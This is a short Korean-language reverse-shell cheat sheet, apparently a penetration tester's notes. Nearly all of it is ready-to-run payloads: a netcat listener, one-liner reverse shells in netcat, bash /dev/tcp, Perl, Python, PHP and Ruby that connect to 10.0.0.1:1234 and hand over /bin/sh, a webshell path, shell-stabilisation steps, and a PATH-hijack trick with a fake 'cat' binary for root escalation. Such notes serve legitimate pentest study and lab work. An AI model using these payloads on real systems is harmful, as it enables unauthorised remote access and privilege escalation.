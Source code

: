reverse-shell
#
`listener`
```
rlwrap nc -nvlp <port>
```
- l: 연결을 듣는다
- v: 상세수준을 설정
- n: dns를 통해 호스트 이름을 확인하지 않는다.
- p: 사용할 포트를 지정한다.

#
`Netcat`
```
nc -e /bin/sh 10.0.0.1 1234
```
잘못된 버전을 사용할 경우 다음과 같이 리버스 셸을 다시 사용할 수 있다

#
`Bash`
```
bash -i >& /dev/tcp/10.0.0.1/1234 0>&1
```
#
`Perl`
```
perl -e 'use Socket;$i="10.0.0.1";$p=1234;socket(S,PF_INET,SOCK_STREAM,getprotobyname("tcp"));if(connect(S,sockaddr_in($p,inet_aton($i)))){open(STDIN,">&S");open(STDOUT,">&S");open(STDERR,">&S");exec("/bin/sh -i");};'
```
#
`python`
```
python -c 'import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.0.0.1",1234));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call(["/bin/sh","-i"]);'
```
#
`php`
```
php -r '$sock=fsockopen("10.0.0.1",1234);exec("/bin/sh -i <&3 >&3 2>&3");'
```
#
`ruby`
```
ruby -rsocket -e'f=TCPSocket.open("10.0.0.1",1234).to_i;exec sprintf("/bin/sh -i <&%d >&%d 2>&%d",f,f,f)'
```
#
locate
```
/usr/share/webshells/php/php-reverse-shell.php
```
#
`셸 안정화`
```
script /dev/null -c bash
stty raw -echo; fg
reset
xterm
export TERM=xterm
export SHELL=bash
```
#
`절대 경로 대신 상대 경로를 사용하여 cat binary를 호출하는 것을 볼 수 있다. 악의적인 cat을 만들고 현재 작업 디렉토리를 포함하도록 경로를 수정하면 잘못된 구성을 악용할 수 있으며 권한을 루트로 높일 수 있다.`
```
export PATH=/tmp:$PATH
cd /tmp
echo '/bin/sh' > cat
chmod +x cat
```
#
reference

- [reverse shell php](https://github.com/BlackArch/webshells)
- [reverse shell payload](https://pentestmonkey.net/cheat-sheet/shells/reverse-shell-cheat-sheet)
- [reverse shell payload](https://highon.coffee/blog/reverse-shell-cheat-sheet/)